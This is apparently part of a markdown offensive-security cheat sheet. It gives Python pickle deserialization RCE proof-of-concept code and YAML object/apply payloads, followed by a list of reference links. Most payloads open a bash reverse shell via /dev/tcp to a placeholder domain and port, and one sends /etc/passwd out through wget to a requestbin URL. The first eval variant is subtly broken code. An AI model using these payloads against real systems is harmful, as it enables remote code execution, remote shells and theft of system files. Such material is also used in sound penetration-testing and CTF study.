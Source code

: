 ## Python Pickle RCE PoC<br>

<span style="color:#21C587">&#35;</span><strong> eval</strong><br>
```python
import __builtins__
import pickle
import base64

class rce(object):
  def __reduce__(self):
    x = "open('bash -i >& /dev/tcp/domain/port 0>&1').read()"
    return (__builtins__.eval, (x,))

print(base64.b64encode(pickle.dumps(rce())))
```

<span style="color:#21C587">&#35;</span><strong> os.system</strong><br>
```python
import os
import pickle
import base64

class rce(object):
  def __reduce__(self):
    return (os.system, ('bash -i >& /dev/tcp/domain/port 0>&1',))

print(base64.b64encode(pickle.dumps(rce())))
```

---
## RCE with Ruby YAML.load

```
!!python/object/apply:subprocess.check_output ['ls']
!!python/object/apply:subprocess.check_output
       args: [ bash -i >& /dev/tcp/domain/port 0>&1 ]
       kwds: { shell: true }
!!python/object/apply:os.system ["wget https://requestbin/?`cat /etc/passwd`"]
```

---
## <span style="color:#21C587"></span> IPv4 to IP Decimal Conversion<br>
[Link](https://www.ipaddressguide.com/ip)

---
*Reference* : [https://www.anquanke.com](https://www.anquanke.com/post/id/176185)<br>
*Reference* : [https://owasp.org/www-community/xss-filter-evasion-cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)<br>
*Reference* : [https://bittherapy.net/post/~/](https://bittherapy.net/post/a-trick-to-bypass-an-xss-filter-and-execute-javascript/)<br>
*Reference* : [https://medium.com/@schopath/~](https://medium.com/@schopath/bug-bounty-berburu-server-side-request-forgery-ssrf-yuk-2-image-svg-61ecf3ca1951)<br>
*Reference* : [https://twitter.com/HolyBugx](https://twitter.com/HolyBugx/status/1348928810620743682)<br>
*Reference* : [https://github.com/w181496/Web-CTF-Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet)<br>
*Reference* : [https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd](https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd)<br>
*Reference* : [https://hackerone.com/reports/1024734](https://hackerone.com/reports/1024734)<br>
*Reference* : [https://medium.com/@nyomanpradipta120/~](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f)<br>
*Reference* : [https://portswigger.net/research/~](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss)<br>